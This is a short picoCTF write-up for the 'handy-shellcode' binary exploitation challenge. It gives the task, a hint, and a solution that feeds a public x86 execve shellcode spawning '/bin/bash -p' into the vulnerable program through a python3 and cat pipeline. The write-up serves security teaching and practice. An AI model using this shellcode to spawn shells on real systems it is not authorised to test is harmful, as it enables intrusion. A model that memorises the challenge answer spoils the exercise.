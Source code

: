 # handy-shellcode
This [program](https://github.com/Xaplomian/DissimuloPicoCTFWriteUps/raw/master/Binary%20Exploitation/handy-shellcode/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_4_037bd47611d842b565cfa1f378bfd8d9 on the shell server. [Source](vuln.c). (50 points)

# Hint
You might be able to find some good shellcode online.

# Solution
Shellcode is a series of opcodes that we can write into the stdin of a program, which it will hopefully execute. Using the shellcode from [here](http://shell-storm.org/shellcode/files/shellcode-606.php) `"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`. We will then supply the cat command, to keep the stdin open. This is what the shellscript should look like:
```bash
(python3 -c print('\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'); cat) | ./vuln
```
